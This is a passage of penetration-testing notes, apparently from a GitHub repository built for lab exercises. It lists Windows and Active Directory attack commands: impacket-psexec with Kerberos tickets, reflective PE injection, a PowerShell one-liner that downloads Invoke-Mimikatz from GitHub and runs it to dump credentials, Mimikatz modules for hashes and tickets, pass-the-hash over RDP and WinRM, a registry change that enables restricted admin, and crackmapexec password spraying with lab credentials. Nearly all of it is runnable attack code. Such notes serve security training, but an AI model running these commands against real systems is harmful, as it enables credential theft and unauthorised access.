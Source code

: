 ![image](https://github.com/user-attachments/assets/dbf59a75-11c3-4517-b0e7-60f5894aba5b)
```
export KRB5CCNAME=./Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache

Change resourcedc.resourced.local machin_ip_address in /etc/hosts

impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.x.x
```

### Authentication
#### Minikatz(require local admin)
Load DemoEXE and run it locally.  
```
$PEBytes = [IO.File]::ReadAllBytes('DemoEXE.exe')  
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs "Arg1 Arg2 Arg3 Arg4"
https://github.com/KiritoLoveAsuna/Penetration-Testing/blob/main/Invoke-ReflectivePEInjection.ps1
```
Powershell run minikatz
```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```
```
password hash:
1. privilege::debug
2. sekurlsa::logonpasswords
Cached Credentials:
1. privilege::debug
2. lsadump::cache
TGT and TGS:
1. sekurlsa::tickets
```
### Lateral Movement
/ticket - optional - filename for output the ticket - default is: ticket.kirbi.  
/ptt - no output in file, just inject the golden ticket in current session.
```
Failed logins result in a [-]
Successful logins result in a [+] Domain\Username:Password
Local admin access results in a (Pwn3d!) added after the login confirmation, shown below.

rdp(sometimes authentication not correct):
(To enable passing the hash in xfreerdp, cme smb 10.0.0.200 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f')
proxychains4 -f /etc/proxychains4.conf crackmapexec rdp 172.16.218.82 -u 'yoshi' -p 'Mushroom!'
proxychains4 -f /etc/proxychains4.conf crackmapexec smb 172.16.218.82 -u 'yoshi' -p 'Mushroom!' -M rdp -o ACTION='ENABLE'(Admin privilege can turn on rdp on machine)
proxychains4 -f /etc/proxychains4.conf xfreerdp /u:yoshi /d:medtech.com(if this user is localuser,do not specify domain!!!!!) /p:Mushroom! /v:172.16.218.82:port /cert-ignore
xfreerdp /v:192.168.153.175 /cert-ignore /u:L.Livingstone /pth:19a3a7550ce8c505c2d46b5e39d6f808

smb(-x requires admin privilege):
for impacket-psexec.py to have shell by smb, Admin$ or C$ need to be writable
proxychains4 -f /etc/proxychains4.conf smbclient //172.16.196.13/IPC$(sharename) -U offsec%lab

mssql:
impacket-mssqlclient relia.com/dnnuser:DotNetNukeDatabasePassword\!@192.168.192.248 -port 49965

password spray:
cme protocol ip.txt -u user1 user2 user3 -p pass1 pass2 pass3

winrm:
cme winrm ip -u celia.almeda -H 19a3a7550ce8c505c2d46b5e39d6f808
```